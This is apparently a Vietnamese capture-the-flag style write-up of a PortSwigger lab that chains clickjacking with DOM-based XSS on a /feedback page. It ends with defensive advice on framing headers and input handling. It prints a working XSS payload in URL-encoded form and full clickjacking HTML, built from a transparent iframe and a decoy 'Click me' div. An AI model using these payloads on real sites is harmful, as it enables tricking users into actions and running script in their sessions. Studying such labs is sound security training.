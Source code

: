 # Write-ups: Exploiting clickjacking vulnerability to trigger DOM-based XSS

### Tổng quan
Khai thác lỗ hổng clickjacking kết hợp với DOM-based XSS trong chức năng feedback của ứng dụng. Trang `/feedback` cho phép điền trước dữ liệu qua tham số URL và dễ bị XSS do hiển thị trực tiếp tham số name mà không xử lý. Ứng dụng thiếu bảo vệ chống nhúng iframe (X-Frame-Options hoặc CSP), cho phép nhúng trang `/feedback` với payload XSS trong iframe. Kẻ tấn công sử dụng iframe và div giả mạo ("Click me") để lừa người dùng nhấp vào nút "Submit feedback", kích hoạt XSS với lệnh `print()` và hoàn thành lab.

### Mục tiêu
- Khai thác clickjacking để nhúng trang `/feedback` với payload XSS trong `iframe`, đặt div giả mạo lên nút "Submit feedback", lừa người dùng nhấp để kích hoạt DOM-based XSS với lệnh `print()` và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập chức năng feedback tại /feedback, thử gửi form với dữ liệu:
    - Name: 1111
    - Email:1111@gmail.com   
    - Subject:1111
    - Message: nice web
- **Phản hồi**:
    - Trang hiển thị tên `1111` trực tiếp có thể là reflected xss:
        ![xss](./images/1_submit_feedback.png)

- Truy cập chức năng feedback tại /feedback, thử gửi form với dữ liệu:
    - Name: <img src="1" onerror=print()>
    - Email:1111@gmail.com   
    - Subject:1111
    - Message: nice web
- **Phản hồi**:
    - Trang hiển thị tên `<img src="1" onerror=print()>` trực tiếp, kích hoạt lệnh `print()`, xác nhận lỗ hổng DOM-based XSS:
        ![confirm](./images/3_xss.png)

- Kiểm tra URL điền trước dữ liệu form: `/feedback?name=wiener&email=hacker@email.com&subject=hehehe&message=huhuhu`
    - Trang `/feedback` hiển thị form với các trường được điền trước, dễ bị tiêm payload XSS qua tham số name.
        ![url](./images/2_url_wiener.png)

- **Kiểm tra khả năng nhúng iframe**
    - Tạo payload kiểm tra trong Exploit Server để xác minh khả năng nhúng trang `/feedback`:
        ```html
        <iframe src="https://0a5500910335739280ea0d2100e8003c.web-security-academy.net/feedback?name=wiener&email=hacker@email.com&subject=hehehe&message=huhuhu"></iframe>
        ```
    - Store và view exploit:
        - Trang `/feedback` hiển thị trong iframe mà không bị chặn, xác nhận thiếu `X-Frame-Options` hoặc CSP:
            ![iframe](./images/4_iframe.png)

3. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lừa người dùng nhấp vào nút "Submit feedback" với XSS:
    ```html
    <style>
        iframe {
            position: relative;
            width: 1000px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position: absolute;
            top: 617px;
            left: 65px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a5500910335739280ea0d2100e8003c.web-security-academy.net/feedback?name=%3c%69%6d%67%20%73%72%63%3d%22%31%22%20%6f%6e%65%72%72%6f%72%3d%70%72%69%6e%74%28%29%3e&email=hacker@email.com&subject=hehehe&message=huhuhu#feedbackResult"></iframe>
    ```
    ![body](./images/5_body.png)
- **Ý tưởng payload**:
    - Iframe nhúng `/feedback` với payload XSS trong tham số name, div "Click me" đặt chồng lên nút "Submit feedback" để lừa nhấp, kích hoạt lệnh `print()`.
- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân nhấp vào "Click me", form feedback được gửi, payload `<img src="1" onerror=print()>` được hiển thị, kích hoạt lệnh `print()` và hoàn thành lab
        ![solved](./images/6_solved.png)

### Bài học rút ra
- Hiểu cách khai thác clickjacking kết hợp DOM-based XSS bằng cách nhúng trang `/feedback` với payload XSS vào iframe, sử dụng div giả mạo để lừa người dùng nhấp vào nút "Submit feedback", kích hoạt lệnh `print()`.
- Nhận thức tầm quan trọng của việc triển khai header `X-Frame-Options: DENY` hoặc `Content-Security-Policy: frame-ancestors 'none'` để ngăn nhúng iframe và xử lý an toàn đầu vào người dùng để ngăn chặn XSS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác clickjacking kết hợp DOM-based XSS, nhấn mạnh tầm quan trọng của việc bảo vệ chống nhúng iframe và xử lý an toàn dữ liệu đầu vào để ngăn chặn các cuộc tấn công kết hợp. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*